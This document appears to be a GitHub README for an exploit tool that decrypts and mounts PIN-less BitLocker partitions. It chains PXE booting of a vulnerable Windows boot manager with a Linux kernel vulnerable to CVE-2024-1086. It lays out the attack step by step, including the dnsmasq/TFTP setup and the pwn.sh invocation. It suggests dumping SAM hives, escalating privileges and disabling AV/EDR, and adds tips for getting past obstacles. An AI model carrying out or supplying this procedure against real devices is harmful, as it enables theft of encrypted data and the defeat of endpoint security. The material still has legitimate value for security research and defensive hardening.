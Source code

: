 # Intro

No need to open up computers to decrypt and mount (PINless) Bitlocker partitions anymore, you just need a LAN cable and understand what you are doing.   

Many thanks to th0mas from Neodyme for his articles on the matter. See https://neodyme.io/en/blog/bitlocker_screwed_without_a_screwdriver and https://neodyme.io/en/blog/bitlocker_why_no_fix/.

# Exploit

- Put `create_modded_bcd.bat` into a USB stick which you'll plug into the target device (or use an SMB share if USB is completely disabled).
- Get a Windows Recovery shell. Can be achieved by pressing Shift while clicking "restart" from the Windows login screen, or by typing "shutdown /r /o /t 0" in a terminal if you're logged in.
- Once in the recovery shell, get into your USB disk and execute the script ("e:" is wherever your USB disk was mounted):  
    ```
    e:
    create_modded_bcd.bat
    ```
- Then, move the newly created `BCD` file from your USB disk (or SMB share) into the `TFTP-root/Boot/` folder on your Linux attacking device.
- Now plug a LAN cable between your device and the target and configure a quick LAN network with TFTP support ($ABS_TFTP_ROOT corresponds to the TFTP-root folder of this repo):
    ```
    sudo dnsmasq --no-daemon \
    --interface="$INTERFACE" \
    --dhcp-range=10.13.37.100,10.13.37.101,255.255.255.0,1h \
    --dhcp-boot=bootmgfw.efi \
    --enable-tftp \
    --tftp-root="$ABS_TFTP_ROOT" \
    --log-dhcp
    ```
* Make sure your Ethernet interface is configured:
    ```
    sudo ifconfig $INTERFACE 10.13.37.1
    sudo ifconfig $INTERFACE up 
    ```
* Trigger PXE boot on the target device. Can generally be done in two ways:
    * From the recovery screen, select "use a device" and boot from something that looks like "IPv4 Network" (name can vary)
    * After powering on, press F12 (HP) or whichever key triggers PXE boot
* If everything goes well, the target device will load a grub after a few seconds (up to a minute maybe) and you can choose to boot into Alpine Linux
* Then log in as "root" when the initrd login prompt appears and do the following:
    ```
    # If you want an AZERTY keyboard
    loadkeys fr

    # Bitlocker partition generally is on /dev/nvme0n1p3 but it can vary
    ./pwn.sh /dev/nvme0n1p3
    ```
* Now the decrypted partition should be under mnt/, enjoy! You could use it to copy the SAM hives, modify exe paths for privesc, rename AV/EDR folders so they stop working, ...
* **Do not forget to umount**

# PXE server
 TFTP-root/ will be your serving TFTP folder for the PXE boot. You'll only need to copy paste the modified BCD file into Boot/, everything else should be left untouched.

There are 3 subfolders:
- **EFI/** : replicates the EFI boot partition. Generally contains a bunch of useless files, here I kept it simple and only left EFI/Microsoft/Boot/bootmgfw.efi, which is the only file needed
- **Boot/** : contains the BCD registry file that you crafted
- **grub/** : contains the grub configuration which loads the Linux initramfs and kernel

As for the files:
- **alpine-initrd.xz**: Alpine Linux filesystem with everything you need
- **bootmgfw.efi**: a vulnerable Windows boot file from before 2022. The first file that the target device will load during PXE boot
- **debian-kernel-514**: vulnerable kernel that allows us to read the VMK in memory
- **grubx64.efi**: grub boot file that loads the grub/grub.cfg and enables you to boot into Linux
- **shimx64.efi**: shim boot file that loads the grubx64.efi file

# Tips
* File names ARE case sensitive when booting via PXE, so if the target device is looking for BOOTMGFW.EFI instead of bootmgfw.efi, rename it as such.
* If you can't use a keyboard on the target device (which is likely if this isn't a laptop and keyboards are external devices), you can just use SSH to connect to it and run the exploit.
* You won't have write access to the Bitlocker partition if you haven't shut down the Windows client properly (Windows hibernation system). Make sure you don't hold the power button and force the shutdown. If you want to be safe, use `shutdown /s /t 0` (shutdown) or `shutdown /r /o /t 0` (reboot) or just click "shut down" or "restart" if you aren't logged in (and wait properly)
* Some hardware makes it so NVMe disks are not recognized sometimes. This can be due to Intel Volume Management Device (VMD) or other reasons. Using a different kernel version that is still vulnerable to CVE-2024-1086 has proven useful in some cases, e.g. kernel version 6.1.0-17 (which is included in this repo as a backup somewhere).
* If PXE is working fine but you're getting an empty blue screen, just press ESC to skip to the grub. Might indicate there is an issue somewhere though.
* If absolutely no 3rd party distribution is allowed to boot (the shimx64.efi file not properly going through PXE can be diagnostic of that) because Secure Boot 3rd party certificates are not allowed, you will have to read the memory from Windows instead. This project seems to have made some progress on a WinPE exploit: https://github.com/martanne/bitpixie. 
* On AMD hardware, disabling SVM virtualization in the BIOS might be necessary to boot Linux. If you cannot turn it off, see previous point for how to exploit from a Windows partition.

# Unexploitable cases
This particular exploit will not work in the following scenarios (but TPM sniffing and lesser-known software exploits might still do):
* A PIN or key file is required to unlock the drive.
* PXE boot is completely disabled and you also cannot boot via USB (otherwise you could try using a USB-Ethernet dongle). You could theoretically reset the UEFI from the motherboard if PXE is allowed by default, but that is risky.
* Any Bitlocker configuration (e.g., Bitlocker Legacy) where other PCRs than 7 & 11 are used (run the following command with admin privileges if you can, to verify: `manage-bde -protectors -get c:`)
* KB5025885 is installed (unlikely).
* The bootloader is signed with something else than the 2011 Secure Boot certificate (unlikely). If you're logged in you can directly check the signature of bootmgr.efi in C:\Windows\Boot\EFI\ or after mounting the EFI partition from the recovery shell (via the `mountvol s: /s` command).